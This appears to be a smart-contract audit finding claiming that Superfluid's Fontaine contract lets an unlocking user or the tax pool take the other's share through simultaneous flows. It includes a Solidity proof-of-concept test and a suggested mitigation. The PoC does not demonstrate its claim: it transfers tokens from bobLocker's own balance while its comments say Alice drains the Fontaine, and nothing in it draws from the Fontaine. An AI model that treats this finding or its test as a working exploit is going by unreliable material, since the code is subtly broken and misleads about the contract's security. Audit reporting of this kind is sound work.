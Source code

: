Flat Sage Sidewinder

High

# `Fontaine` allows the user unlocking or the tax pool to collect too many funds due to having simultaneous flows

### Summary

[Fontaine::initialize()](https://github.com/sherlock-audit/2024-11-superfluid-locking-contract/blob/main/fluid/packages/contracts/src/Fontaine.sol#L61) distributes flows to the tax pool and the recipient over time. As the flows are simultaneous, until one of these 2 actually claims the funds, it is possible for one of them to steal the funds that were meant to the other. For example, in a 20/80 split, any of the parts may end up getting `100%`.

### Root Cause

In `Fontaine::initialize()`, it destributes funds simultaneously to the tax pool and recipient.

### Internal pre-conditions

None.

### External pre-conditions

None.

### Attack Path

1. User unlocks using a vesting period.
2. Funds flow to both parties from the fontaine, so user or the tax pool may claim funds that were meant for the other party.

### Impact

The user or the tax pool steals funds from one another.

### PoC

Add the following test to `FluidLocker.t.sol` showing how `Alice` can receive all of the funds from the fountaine:
```solidity
function test_POC_VestUnlock_AliceRemovesAllFontaineFunds() external {
    uint128 unlockPeriod = _MIN_UNLOCK_PERIOD;
    uint256 funding = 10_000e18;
    _helperFundLocker(address(aliceLocker), funding);

    assertEq(_fluidSuperToken.balanceOf(address(aliceLocker)), funding, "incorrect Locker bal before op");

    (int96 taxFlowRate, int96 unlockFlowRate) = _helperCalculateUnlockFlowRates(funding, unlockPeriod);

    // ALICE SHOULD NOT BE ABLE TO REMOVE ALL FONTAINE BALACE, MOST GOES TO TAX
    assertEq(taxFlowRate, 0.013227513227513227e18);
    assertEq(unlockFlowRate, 0.003306878306878306e18);

    _helperUpgradeLocker();
    _helperBobStaking();

    vm.prank(ALICE);
    aliceLocker.unlock(unlockPeriod, ALICE);

    IFontaine newFontaine = FluidLocker(address(aliceLocker)).fontaines(0);
    uint256 fontaineBalance = _fluidSuperToken.balanceOf(address(newFontaine));
    assertEq(fontaineBalance, 9761.904761909262405632e18, "incorrect Fontaine bal after op");

    vm.warp(block.timestamp + 5 * unlockPeriod);

    address user = makeAddr("user");
    vm.prank(address(bobLocker));
    _fluidSuperToken.transfer(user, fontaineBalance);

    // ALICE REMOVES ALL FONTAIN BALANCE WHEN SHE SHOULD ONLY REMOVE roughly 2000e18
    assertEq(_fluidSuperToken.balanceOf(user), fontaineBalance); 
}
```

### Mitigation

The flows could be split in 2 contracts, one sending the funds to the recipient and the other to the tax pool.